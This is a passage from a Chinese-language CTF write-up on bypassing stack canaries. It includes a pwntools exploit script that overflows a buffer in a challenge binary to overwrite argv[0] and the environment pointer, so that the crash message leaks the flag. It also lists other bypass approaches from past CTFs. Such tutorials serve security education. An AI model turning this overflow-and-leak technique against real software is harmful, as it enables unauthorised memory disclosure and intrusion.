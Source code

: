 ![Alt](img/canary42.png)
![Alt](img/canary43.png)

通过gdb调试可以发现flag在本程序中有两处,这两处是只读的变量,地址不会改变：

![Alt](img/canary44.png)

显然第二个地址为我们第二次输入的位置，那么第一个地址就应该是flag存放的位置，所以可以构造脚本让`argv[0]`被覆盖为0x400d20,让后环境变量指针覆盖为0x600d20，通过第二次输入来覆盖环境变量，从而读到flag

```python
    from pwn import *

    flag_addr = 0x400d20
    envp_addr = 0x600d20

    p = process('./readme')

    payload = 'A'*0x118
    payload += p64(flag_addr)   # 覆盖argv[0]
    payload += p64(0)   # 填充到环境变量的指针
    payload += p64(envp_addr)    # 覆盖环境变量指针指向第二次输入的位置

    p.recvuntil("What's your name? ")
    p.sendline(payload)
    p.recvuntil("Please overwrite the flag: ")
    p.sendline("LIBC_FATAL_STDERR_ =1")
    print p.recv()
```

## 其他绕过思路

可以通过修改栈中的局部变量，从而控制函数中的执行流程达到任意地址写(0CTF 2015的flaggenerator)，直接“挖”到canary产生的本源——AUXV(Auxiliary Vector)，并修改该结构体从而使canary值可控(TCTF 2017 Final的upxof)，等等。
